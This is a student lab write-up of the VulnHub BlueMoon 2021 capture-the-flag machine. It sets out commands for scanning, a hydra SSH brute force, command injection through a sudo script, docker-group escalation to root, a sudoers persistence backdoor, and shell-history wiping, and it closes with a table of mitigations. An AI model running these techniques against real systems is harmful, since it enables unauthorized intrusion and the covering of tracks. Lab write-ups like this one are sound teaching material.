# Week 3 – System Hacking

## VulnHub BlueMoon 2021

**Machine:** BlueMoon: 2021 (VulnHub)
**Author:** Kirthik
**Difficulty:** Easy
**Goal:** Get Root
**Link:** https://www.vulnhub.com/entry/bluemoon-2021,679/

This walkthrough follows the System Hacking Stages taught in lecture:
**Reconnaissance → Scanning → Gaining Access → Escalate Privileges → Maintain Access → Clear Tracks**

---

## Stage 1: Reconnaissance

**Objective:** Identify the attacker IP and locate the target on the network.

**Commands:**
```
ifconfig
nmap -sn 192.168.101.0/24
```

**Result:**
- Kali Linux IP: `192.168.101.200`
- BlueMoon IP: `192.168.101.199`

**Screenshots:**




---

## Stage 2: Scanning

**Objective:** Enumerate open ports, services, and hidden web content.

**Command:**
```
nmap -sC -sV -Pn -vv 192.168.101.199
```

**Results:**

| Port | Service | Version |
|------|---------|---------|
| 21 | FTP | vsftpd 3.0.3 |
| 22 | SSH | OpenSSH 7.9p1 Debian |
| 80 | HTTP | Apache |



### Web Enumeration

```
gobuster dir -u http://192.168.101.199 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Result:** Found hidden directory `/hidden_text` (Status 200).



Visiting `http://192.168.101.199/hidden_text` showed a "Maintenance" page with a "Thank You..." link leading to a QR code image.




---

## Stage 3: Gaining Access

**Objective:** Exploit the discovered lead to obtain valid credentials and a foothold.

### Decoding the QR Code

```
sudo apt install zbar-tools -y
zbarimg ~/Desktop/qr.png
```

**Result:** QR code decoded into an FTP login script revealing credentials:
- Username: `userftp`
- Password: `ftpp@ssword`



### FTP Enumeration

```
ftp 192.168.101.199
ls
get information.txt
get p_lists.txt
bye
```

**Result:** Two files downloaded — `information.txt` and `p_lists.txt`.




### Analyzing Downloaded Files

```
cat information.txt p_lists.txt
```

- **information.txt** revealed a valid SSH username: `robin`
- **p_lists.txt** contained a wordlist of ~26 candidate passwords



### Brute-Forcing SSH with Hydra

```
hydra -l robin -P p_lists.txt 192.168.101.199 ssh
```

**Result:**
```
[22][ssh] host: 192.168.101.199   login: robin   password: k4rv3ndh4nh4ck3r
```



### Logging in via SSH

```
ssh robin@192.168.101.199
```

**Access gained as user `robin`.**



### Flag #1

```
cat user1.txt
```
```
Fl4g{u5er1r34ch3d5ucc355fully}
```



---

## Stage 4: Escalate Privileges

**Objective:** Identify and exploit a sudo misconfiguration to pivot between users, eventually reaching root.

### robin → jerry

```
sudo -l
```

**Result:**
```
User robin may run the following commands on bluemoon:
    (jerry) NOPASSWD: /home/robin/project/feedback.sh
```

*(see screenshot above — sudo -l output is captured together with Flag #1)*

```
cat /home/robin/project/feedback.sh
```

**Vulnerability found:** The script executes user input directly (`$feedback 2>/dev/null`) — a command injection vulnerability.



**Exploitation:**
```
sudo -u jerry /home/robin/project/feedback.sh
```
- Name prompt: `test`
- Feedback prompt: `/bin/bash`

```
whoami
```
```
jerry
```



### Flag #2

```
cat /home/jerry/user2.txt
```
```
Fl4g{Y0ur34ch3du53r25uc355ful1y}
```

*(see screenshot above — Flag #2 is captured together with the docker group check)*

### jerry → root

```
id
```

**Result:**
```
uid=1002(jerry) gid=1002(jerry) groups=1002(jerry),114(docker)
```

**Vulnerability found:** `jerry` belongs to the **docker** group — equivalent to root access.



**Exploitation:**
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
whoami
id
```
```
root
uid=0(root) gid=0(root)
```

**Full root access achieved.**



### Flag #3 (Root Flag)

```
cat /root/root.txt
```
```
Congratulations!
You Reached Root ... !

Root-Flag
Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}
```

*(see screenshot above — Root Flag is captured together with the root shell confirmation)*

---

## Stage 5: Maintain Access

**Objective:** Demonstrate a persistence technique to regain access without repeating the full attack chain.

```
echo "echo 'jerry ALL=(ALL) NOPASSWD:ALL' >> /etc/sudoers" > /tmp/backup.sh
sh /tmp/backup.sh
```

This grants `jerry` passwordless root access going forward, without needing to repeat the docker exploit.

---

## Stage 6: Clear Tracks

**Objective:** Remove evidence of the attacker's activity from the system.

```
history -c
cat /dev/null > ~/.bash_history
history
```

**Result:** Shell history cleared.



---

## Summary of Flags

| Flag | Value |
|------|-------|
| User Flag (robin) | `Fl4g{u5er1r34ch3d5ucc355fully}` |
| User Flag (jerry) | `Fl4g{Y0ur34ch3du53r25uc355ful1y}` |
| Root Flag | `Fl4g{r00t-H4ckTh3P14n3t0nc34g41n}` |

## Vulnerabilities Identified & Mitigations

| Vulnerability | Description | Mitigation |
|---|---|---|
| Sensitive data in QR code | FTP credentials were embedded in a publicly accessible QR code image | Never expose credentials in any client-accessible artifact, encoded or not |
| Weak/exposed credentials | SSH username and a predictable password list were stored in plaintext files accessible via FTP | Disable weak FTP access; enforce strong, unique passwords; restrict file permissions |
| Command injection in feedback.sh | User input was passed directly to shell execution (`$feedback`) without sanitization | Never execute unsanitized user input as a command; validate input and avoid `eval`-like execution |
| Docker group privilege escalation | A low-privileged user was added to the docker group, equivalent to root access | Avoid adding non-admin users to the docker group; use rootless Docker where possible |

## Tools Used

- `nmap` — network and port scanning
- `gobuster` — directory brute-forcing
- `zbarimg` — QR code decoding
- `ftp` — file transfer protocol client
- `hydra` — SSH credential brute-forcing
- `ssh` — remote shell access
- `docker` — container exploitation for privilege escalation

## Conclusion

BlueMoon: 2021 is an easy-difficulty CTF that demonstrates a realistic attack chain involving credential hiding via QR code, weak FTP security, command injection, and Docker group privilege escalation. All three flags were successfully captured and full root access was obtained.
